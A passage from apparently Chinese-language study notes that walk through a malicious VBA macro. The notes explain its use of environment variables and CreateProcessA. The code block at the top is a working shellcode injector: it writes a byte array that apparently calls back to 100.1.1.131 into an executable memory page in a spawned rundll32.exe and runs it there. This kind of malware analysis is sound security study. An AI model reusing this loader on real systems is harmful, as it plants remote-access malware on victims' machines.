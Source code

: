 ```vb
104,0,0,64,0,87,104,88,-92,83,-27,-1,-43,-109,-71,0,0,0,0,1,-39,81,83,-119,-25,87,104,0,32,0,0,83,86,104,18,-106,-119,-30,-1,-43, _
-123,-64,116,-58,-117,7,1,-61,-123,-64,117,-27,88,-61,-24,-87,-3,-1,-1,49,48,48,46,49,46,49,46,49,51,49,0,0,1,-122,-96)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
        sProc = Environ("windir") & "\\System32\\rundll32.exe"
    End If

    res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

    rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
    For offset = LBound(myArray) To UBound(myArray)
        myByte = myArray(offset)
        res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
    Next offset
    res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
```

- **宏初始化**：定义了一些变量，包括进程信息和启动信息结构体

  - 在 VB 中，声明的变量会自动初始化为它们的默认值。以下是常见数据类型及其默认值：
    - `Integer`, `Long`, `Single`, `Double`: 默认值为 `0`
    - `Boolean`: 默认值为 `False`
    - `String`: 默认值为空字符串 `""`
    - `Object`: 默认值为 `Nothing`（相当于 `null`）

- **选择运行的可执行文件**：根据系统环境变量，选择`rundll32.exe`的路径

  - `Len(Environ("ProgramW6432"))`

    `Environ` 是一个函数，用于获取环境变量的值, 64 位系统有这个环境变量, 32位系统没有, 因此可以根据这个变量的长度来判断系统为 64 位还是 32 位从而指定 `rundll32.exe` 的路径

    `Environ("ProgramW6432")` 返回一个字符串，表示系统环境变量 `ProgramW6432` 的值。

    通常，这个环境变量的值是 64 位系统上的程序文件夹路径，如 `C:\Program Files`。

    > 可以用 Powershell `Write-Host $env:ProgramW6432` 看下
    >
    > ![image-20240701173317039](http://cdn.ayusummer233.top/DailyNotes/202407011733315.png)

- **创建进程**：使用`CreateProcessA`函数启动`rundll32.exe`

  > [CreateProcessA function (processthreadsapi.h) - Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa)
  > 创建一个新进程及其主线程。新进程在调用进程的安全上下文中运行。
  >
  > ```c++
  > BOOL CreateProcessA(
  >   [in, optional]      LPCSTR                lpApplicationName,
  >   [in, out, optional] LPSTR                 lpCommandLine,
  >   [in, optional]      LPSECURITY_ATTRIBUTES lpProcessAttributes,
  >   [in, optional]      LPSECURITY_ATTRIBUTES lpThreadAttributes,
  >   [in]                BOOL                  bInheritHandles,
  >   [in]                DWORD                 dwCreationFlags,
  >   [in, optional]      LPVOID                lpEnvironment,
  >   [in, optional]      LPCSTR                lpCurrentDirectory,
  >   [in]                LPSTARTUPINFOA        lpStartupInfo,
  >   [out]               LPPROCESS_INFORMATION lpProcessInformation
  > );
  > ```
